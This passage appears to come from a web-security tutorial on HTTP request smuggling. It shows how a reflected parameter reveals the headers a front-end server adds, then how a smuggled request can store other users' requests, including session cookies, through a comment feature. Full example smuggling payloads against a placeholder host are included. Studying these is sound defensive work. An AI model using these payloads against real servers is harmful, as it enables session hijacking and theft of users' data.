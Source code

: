 The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request: 

```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

## Bypassing client authentication

If the application contains any kind of functionality that allows you to store and later retrieve textual data, you can potentially use this to capture the contents of other users' requests. These may include session tokens or other sensitive data submitted by the user. Suitable functions to use as the vehicle for this attack would be comments, emails, profile descriptions, screen names, and so on. 

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

Example request may look a like
```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
